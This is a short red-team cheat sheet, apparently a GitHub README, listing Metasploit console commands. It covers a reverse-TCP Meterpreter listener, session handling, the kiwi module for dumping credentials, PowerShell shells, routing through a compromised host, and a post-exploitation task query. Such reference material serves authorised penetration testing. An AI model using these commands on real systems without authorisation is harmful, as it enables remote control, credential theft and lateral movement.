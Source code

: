 # Red-team-linux-cheatsheet

# MSFConsole
#### Start listener
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### Background the sessions
```
Background
```

#### List sessions
```
sessions
```

#### Kill session
```
sessions -k <id>
```

#### Enter sessions
```
sessions -i <id>
```

#### Load kiwi module to dump creds and print help for kiwi
```
load kiwi
help kiwi
```

#### Load PowerShell and drop into shell
```
load powershell
powershell_shell
```

#### Set route
```
route add <subnet / host ip> <subnetmask> <session id>
```

# Post-Exploitation
#### Get scheduled tasks
```
Get-ScheduledTask
```

